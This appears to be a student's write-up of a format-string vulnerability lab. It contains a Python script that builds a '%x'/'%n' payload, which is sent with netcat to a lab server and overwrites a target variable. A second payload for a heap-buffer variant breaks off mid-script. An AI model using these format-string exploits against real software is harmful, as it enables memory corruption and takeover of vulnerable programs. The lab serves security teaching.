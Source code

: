```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%8x\n"*62 + "%19917x\n" + "%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd220
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd148
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h11223344
server-10.9.0.5 |     1000
[...]                                                                                                                  5dc
server-10.9.0.5 | The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## Question 2

When the input buffer is located in the heap, it is impossible to provide something that is in the input buffer as an argument to the printf function, since the input buffer is not in the stack. Therefore, we can not read or write to an arbitrary memory address and we are dependent on what is in the stack.

However, this server has a pointer to the start of the input buffer in the stack, which allows to print the input buffer contents.

- 1. Modify the `format.c` to allocate the format string in the heap:
```c
char *buf = calloc(1500, sizeof(char)); // At line 57
```

- 2. Start the server and run the following payload:
```py
!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

s = "++++" + "%8x\n"*5 + "%s\n"

fmt  = (s).encode('latin-1')
content[0:len(fmt)] = fmt

with open('badfile', 'wb') as f:
```